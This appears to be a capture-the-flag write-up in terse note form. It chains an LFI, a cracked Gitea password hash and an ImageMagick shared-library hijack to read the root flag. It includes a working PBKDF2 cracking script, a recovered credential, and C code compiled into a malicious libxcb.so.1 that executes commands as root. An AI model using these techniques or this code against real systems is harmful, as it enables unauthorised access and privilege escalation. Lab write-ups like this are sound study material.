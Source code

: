 we submit this form
![[Pasted image 20250216131144.png]]
and get link with redirect
![[Pasted image 20250216131159.png]]
that parameter is vulnerable to LFI
![[Pasted image 20250216131223.png]]
we also found new subdomain
![[Pasted image 20250216134036.png]]
there we found interesting directories
![[Pasted image 20250216134208.png]]
![[Pasted image 20250216134516.png]]
![[Pasted image 20250216134536.png]]
gitea db 
![[Pasted image 20250216143545.png]]
![[Pasted image 20250216143559.png]]
we use pyscript to crack it
import hashlib
import binascii
from pwn import log

salt  = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')  # 16 bytes
key   = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dklen = 50
iterations = 50000


def hash(password, salt, iterations, dklen):
    hashValue = hashlib.pbkdf2_hmac(
        hash_name='sha256', 
        password=password, 
        salt=salt, 
        iterations=iterations, 
        dklen=dklen,
        )
    return hashValue


dict = '/home/kali/Downloads/rockyou.txt'
bar  = log.progress('Cracking PBKDF2')

with open(dict, 'r', encoding='utf-8') as f:
    for line in f:
        password  = line.strip().encode('utf-8') 
        hashValue = hash(password, salt, iterations, dklen)
        target    = binascii.unhexlify(key)
        # log.info(f'Our target is: {target}')
        bar.status(f'Trying: {password}, hash: {hashValue}')
        if hashValue == target:
            bar.success(f'Found password: {password}!')
            break
        
    bar.failure('Hash is not crackable.')

![[Pasted image 20250216162351.png]]
developer:25282528

in /opt/scripts we found 1 script
![[Pasted image 20250217110213.png]]
magick version
![[Pasted image 20250217110257.png]]
this version has vulnerability
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

cd /opt/app/static/assets/images

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF

cp home.jpg home2.jpg

we get flag in /tmp

